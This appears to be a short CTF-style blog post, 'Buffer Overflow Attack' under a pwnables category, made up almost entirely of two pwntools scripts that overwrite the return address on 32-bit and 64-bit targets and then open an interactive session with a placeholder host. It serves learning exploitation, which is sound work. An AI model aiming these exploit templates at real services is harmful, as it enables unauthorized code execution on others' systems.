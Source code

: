 ```yaml
---
title: Buffer Overflow Attack
author: janger
date: 2023-09-25
category: pwnables
layout: post
---
```




## pwntools for Return Address Overwrite(x32)

~~~ python
from pwn import *

p = remote('target.pwnable.io', 8000)

dummy = b'A' * 20
sfp = b'B' * 4
ret = p32(0x08048087)

payload = dummy + sfp + ret

p.recvuntil('input: ')
p.send(payload)
p.interactive()
~~~

<br>

## pwntools for Return Address Overwrite(x64)

~~~ python
from pwn import *

p = remote('target.pwnable.io', 8000)

dummy = b'A' * 20
sfp = b'B' * 8
ret = p64(0x08048087)

payload = dummy + sfp + ret

p.recvuntil('input: ')
p.send(payload)
p.interactive()
~~~

<br>



